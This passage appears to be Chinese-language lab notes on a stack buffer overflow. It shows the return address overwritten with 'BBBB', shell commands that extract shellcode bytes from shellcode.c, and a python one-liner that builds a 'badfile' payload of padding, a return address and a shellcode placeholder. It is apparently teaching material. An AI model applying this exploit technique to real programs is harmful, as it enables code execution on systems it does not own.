 ![image](images/BJL4ZD-DT.png)

"BBBB" 落在Return address ，EIP已被BBB填滿

接下來要把sellcode寫入
cat shellcode.c | grep '"'
cat shellcode.c | grep '"' | cut -d'"' -f2,4
cat shellcode.c | grep '"' | cut -d'"' -f2,4 | tr -d '\n'
cat shellcode.c | grep '"' | cut -d'"' -f2,4 | tr -d '"' | tr -d '\n'
![image](images/ByFX4wZw6.png)

以上複製下來
badfile改成:
python -c 'print "A"*42 + "BBBB" + "(shellcode"' > badfile
![image](images/rk2EEwZDT.png)

xxd badfile
![image](images/H1qrEwbwp.png)
